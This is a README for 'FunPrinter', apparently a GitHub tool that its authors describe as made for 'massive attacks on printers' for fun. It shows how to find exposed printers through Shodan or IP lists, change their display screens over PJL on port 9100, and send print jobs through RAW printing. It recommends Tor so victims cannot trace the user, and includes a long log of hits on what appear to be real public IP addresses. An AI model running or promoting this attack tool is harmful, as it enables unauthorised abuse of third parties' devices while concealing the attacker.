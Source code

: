 # FunPrinter
```    
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/
```
### What is FunPrinter?
FunPrinter is a tool for perpetrating massive attacks on printers written by FunSec just for lulz.  
The tool has two modes: 
```
--mode shodan
--mode list 
```  
#### Shodan
The shodan mode searches for devices on the internet of things thanks to shodan api. To use this mode you will need yout own API key of shodan.
#### List
List mode reads a specific list and loads them into the program.  
Example list:  
```
140.223.12.34
80.211.32.12
90.23.442.12
5.123.422.12
```
### Message
```
--message <message_here>
```
This argument will specify the message that will be displayed on the printer's screen in case the printer uses PJL through port 9100.  
Example:
```
--message Hacked
```
##### Result (Old picture)
![Example](https://hacking-printers.net/wiki/images/thumb/1/16/PJL-display.png/800px-PJL-display.png)

#### TOR (Optional)
You can use tor to hide your identity (Recommended) so that no angry businessman tries to find you. To do this add --tor in the command of the script.
```python
socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 9050)
```
This line of code set the tor proxy in the script. Change the port if you need.

### How to use Usage
The first step is to have a file that you want to print on printers that have RAW protocol enabled.  
Example:
```
funsec@funsec # cat test.txt  
I hack you LMAO
```
If you use this file without going through A4.py it will not print correctly in the printer. The "test.txt" file needs to be a complete page.    

Then you need to execute this command:
```
kek@kek-PC # python A4.py test.txt
By FunSec with love ;)
```
After this simple step ... Happy hacking!.

Example:
```
kek@kek-PC # python funny.py --mode shodan/list --arg ip_list/shodan_api_key --message message (--tor) myfile
    ________________
  _/_______________/|
 /___________/___//||   -- FunPrinter By FunSec --
|===        |----| ||
|           |   ô| ||
|___________|   ô| ||
| ||/.´---.||    | ||
|-||/_____\||-.  | |´
|_||=L==H==||_|__|/

[TOR] Verifying the connection to the proxy
[TOR] Actual IP: 77.247.181.162
[LIST] Reading list
[LIST] Done!. 199 ips loaded
[49.79.232.76] Connecting...
[49.79.232.76] Connection failed
[125.75.32.191] Connecting...
[125.75.32.191] Connection failed
[124.167.222.86] Connecting...
[124.167.222.86] Connection failed
[162.249.88.74] Connecting...
[162.249.88.74] Connected!
[162.249.88.74] Testing JPL
[162.249.88.74] Test completed!
[162.249.88.74] RICOH MP C4503
[162.249.88.74] Changing the display screen to Succ!
[162.249.88.74] Done!. Closing the connection
[213.248.30.125] Connecting...
[213.248.30.125] Connected!
[213.248.30.125] Testing JPL
[213.248.30.125] Protocol not supported. Closing the connection
[77.236.139.27] Connecting...
[77.236.139.27] Connected!
[77.236.139.27] Testing JPL
[77.236.139.27] Protocol not supported. Closing the connection
[95.173.193.20] Connecting...
[95.173.193.20] Connected!
[95.173.193.20] Testing JPL
[95.173.193.20] RAW protocol detected. Sending file
[95.173.193.20] Done!. Closing the connection
[218.75.141.13] Connecting...
[218.75.141.13] Connection failed
[173.247.166.122] Connecting...
[173.247.166.122] Connected!
[173.247.166.122] Testing JPL
[173.247.166.122] RAW protocol detected. Sending file
[173.247.166.122] Done!. Closing the connection
[112.171.47.235] Connecting...
[112.171.47.235] Connected!
[112.171.47.235] Testing JPL
[112.171.47.235] Protocol not supported. Closing the connection
[45.60.169.188] Connecting...
[45.60.169.188] Connected!
[45.60.169.188] Testing JPL
[45.60.169.188] Protocol not supported. Closing the connection
[107.154.163.139] Connecting...
[107.154.163.139] Connected!
[107.154.163.139] Testing JPL
[107.154.163.139] Protocol not supported. Closing the connection
[107.154.157.226] Connecting...
[107.154.157.226] Connected!
[107.154.157.226] Testing JPL
[107.154.157.226] Protocol not supported. Closing the connection
[107.154.206.184] Connecting...
[107.154.206.184] Connected!
[107.154.206.184] Testing JPL
[107.154.206.184] Protocol not supported. Closing the connection
[107.154.60.223] Connecting...
[107.154.60.223] Connected!
[107.154.60.223] Testing JPL
[107.154.60.223] Protocol not supported. Closing the connection
[203.130.62.58] Connecting...
[203.130.62.58] Connected!
[203.130.62.58] Testing JPL
[203.130.62.58] Protocol not supported. Closing the connection
[45.60.81.249] Connecting...
[45.60.81.249] Connected!
[45.60.81.249] Testing JPL
[45.60.81.249] Protocol not supported. Closing the connection
[177.0.87.163] Connecting...
[177.0.87.163] Connected!
[177.0.87.163] Testing JPL
[177.0.87.163] Test completed!
[177.0.87.163] Samsung M337x 387x 407x Series
[177.0.87.163] Changing the display screen to Succ!
[177.0.87.163] Done!. Closing the connection
[31.14.252.54] Connecting...
[31.14.252.54] Connected!
[31.14.252.54] Testing JPL
[31.14.252.54] RAW protocol detected. Sending file
[31.14.252.54] Done!. Closing the connection
[107.154.103.88] Connecting...
[107.154.103.88] Connected!
[107.154.103.88] Testing JPL
[107.154.103.88] Protocol not supported. Closing the connection
```

